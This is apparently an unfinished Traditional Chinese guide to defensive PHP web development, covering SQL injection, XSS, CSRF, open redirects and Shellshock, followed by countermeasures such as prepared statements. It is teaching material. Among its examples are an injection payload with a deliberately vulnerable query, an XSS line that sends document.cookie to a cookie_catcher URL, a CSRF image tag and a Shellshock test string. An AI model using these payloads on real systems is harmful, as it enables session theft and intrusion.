 # PHP防禦性開發指南

本篇重點在PHP網路應用程式開發上

待補完

授權方式 [CC: BY-SA](https://creativecommons.org/licenses/by-sa/3.0/tw/legalcode) 

## 核心概念

*   最小權限原則
*   永遠不要信任使用者輸入
*   留心輸出
*   留意系統邊界
*   沒有打不穿的系統，只有做了多少準備

## 攻擊範例

**SQL Injection**

[](http://140.121.80.184/tmpPHP/20151215work5.php)[http://140.121.80.184/tmpPHP/20151215work5.php](http://140.121.80.184/tmpPHP/20151215work5.php)

*   s2' AND 1=1 -- 

*    $sql = "select * from userData where account='$_POST[$s_name]' and password=password('$_POST[$s_pw]')";

**XSS**

PHP這樣寫

*   <?php
*   $name = $_GET['name'];
*   echo "Welcome $name<br>";
*   echo "<a href="[](http://xssattackexamples.com/)[http://xssattackexamples.com/](http://xssattackexamples.com/)">Click to Download</a>";
*   ?>

但是...

*   index.php?name=guest<script>alert('attacked')</script>

駭客這麼做

*   document.location= "[](http://www.example.com/cookie_catcher.php?c=)[http://www.example.com/cookie_catcher.php?c=](http://www.example.com/cookie_catcher.php?c=)" + document.cookie

**CSRF**

著名範例：Microsoft MySpace worm

[](https://en.wikipedia.org/wiki/Samy_(computer_worm))[https://en.wikipedia.org/wiki/Samy_(computer_worm](https://en.wikipedia.org/wiki/Samy_(computer_worm))

[](https://zh.wikipedia.org/wiki/%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0)[https://zh.wikipedia.org/wiki/%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0](https://zh.wikipedia.org/wiki/%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0)

*   假如一家銀行用以執行轉帳操作的URL地址如下： [](http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName)[http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName](http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName)
*   那麼，一個惡意攻擊者可以在網站上放置如下代碼： <img src="[](http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman)[http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman](http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman)">
*   如果有賬戶名為Alice的用戶訪問了惡意站點，而她之前剛訪問過銀行不久，登錄信息尚未過期，那麼她就會損失1000資金。

**未經檢核的重新導向**

台泥跟goo.gl常被用來隱藏惡意程式位置

**權限控管系統的失敗**

提供API，卻沒有做好權限驗證，直接吐資料出來，或是該過期未過期的Token，或是可以被預測的產生法

[](http://www.freebuf.com/articles/92211.html)[http://www.freebuf.com/articles/92211.html](http://www.freebuf.com/articles/92211.html)

**該死的預設設定**

![](https://hackpad-attachments.s3.amazonaws.com/funnestworkgroup.hackpad.com_qjfntQt5DI9_p.429812_1452510379753_%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202016-01-11%20%E4%B8%8B%E5%8D%887.04.51.png)

**函式庫弱點**

CVE-2014 HeartBleed

[](http://devco.re/blog/2014/04/09/openssl-heartbleed-CVE-2014-0160/)[http://devco.re/blog/2014/04/09/openssl-heartbleed-CVE-2014-0160/](http://devco.re/blog/2014/04/09/openssl-heartbleed-CVE-2014-0160/)

**語言弱點＆code Injection**

CVE-2014-6271 ShellShock

![](https://lh6.googleusercontent.com/-6fJsJ1BkK6c/VCrMAm9n57I/AAAAAAAAAsE/ovEnfiijQ-g/w878-h530-no/shellshock_test_git.png)

*   () { :;}; /bin/bash -c "echo testing9123123"; /bin/uname -a

[](http://devco.re/blog/2014/09/30/shellshock-CVE-2014-6271/)[http://devco.re/blog/2014/09/30/shellshock-CVE-2014-6271/](http://devco.re/blog/2014/09/30/shellshock-CVE-2014-6271/)

## 應用程序安全風險評量

![](https://hackpad-attachments.s3.amazonaws.com/funnestworkgroup.hackpad.com_qjfntQt5DI9_p.429812_1452508542172_%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202016-01-11%20%E4%B8%8B%E5%8D%886.35.08.png)

## 防衛重點模組

*   PHP程式
*   資料庫
*   Session & Cookie
*   使用者瀏覽器
*   檔案儲存區
*   架構與架構之間的夾縫

## 常見防禦方式

**對付SQL Injection**

SQL Inject的核心意義是：

對策：Prepared statement

[](http://php.net/manual/en/mysqli.quickstart.prepared-statements.php)[http://php.net/manual/en/mysqli.quickstart.prepared-statements.php](http://php.net/manual/en/mysqli.quickstart.prepared-statements.php)

*   /* Prepared statement, stage 1: prepare */
*   if (!($stmt = $mysqli->prepare("INSERT INTO test(id) VALUES (?)"))) {
*       echo "Prepare failed: (" . $mysqli->errno . ") " . $mysqli->error;
*   }
*   /* Prepared statement, stage 2: bind and execute */
*   $id = 1;
*   if (!$stmt->bind_param("i", $id)) {
*       echo "Binding parameters failed: (" . $stmt->errno . ") " . $stmt->error;
*   }
**   if (!$stmt->execute()) {
*       echo "Execute failed: (" . $stmt->errno . ") " . $stmt->error;
*   }

除了避免語句被竄改，也有加速執行重複語句的效果，因為先準備好了SQL語句編譯的部分

**對付CSRF**

對策：token

**XSS**

對策：字串過濾、Escape

[](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)[https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)

**函式庫ㄖ**

[](http://blog.spoock.com/2016/06/25/weakly-typed-security/)http://blog.spoock.com/2016/06/25/weakly-typed-security/

**語言弱點、伺服器弱點**

對策：留意更新，上線前進行黑白箱測試

## 如何檢核

*   完善設計，重複檢核
*   Unit Test
*   弱點掃描
*   白箱測試
*   黑箱測試
*   隨時更新攻擊資訊

## 攻擊資訊參考

OWASP Top 10 [](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project)[https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project)

USCERT [](https://www.us-cert.gov/)[https://www.us-cert.gov/](https://www.us-cert.gov/)

TWCERT [](http://twcertcc.org.tw/)[http://twcertcc.org.tw/](http://twcertcc.org.tw/)

Security Focus [](http://www.securityfocus.com/)[http://www.securityfocus.com/](http://www.securityfocus.com/)

ExploitDB [](https://www.exploit-db.com/)[https://www.exploit-db.com/](https://www.exploit-db.com/)

DevCore [](http://devco.re/blog/)[http://devco.re/blog/](http://devco.re/blog/)

烏雲網 [](http://www.wooyun.org/)[http://www.wooyun.org/](http://www.wooyun.org/)

VulReport漏洞回報平台 [](https://vulreport.net/)[https://vulreport.net/](https://vulreport.net/)

Hitcon Zeroday 漏洞回報平台 [](https://zeroday.hitcon.org/)https://zeroday.hitcon.org/

各大廠商安全通報mail list (例如ubuntu [](https://lists.ubuntu.com/mailman/listinfo/ubuntu-security-announce)[https://lists.ubuntu.com/mailman/listinfo/ubuntu-security-announce](https://lists.ubuntu.com/mailman/listinfo/ubuntu-security-announce) )

Hacker Friendly [](http://hacker-friendly.com/)[http://hacker-friendly.com/](http://hacker-friendly.com/)

The Hacker News [](https://www.facebook.com/thehackernews/?fref=ts)[https://www.facebook.com/thehackernews/?fref=ts](https://www.facebook.com/thehackernews/?fref=ts)

## 參考資料
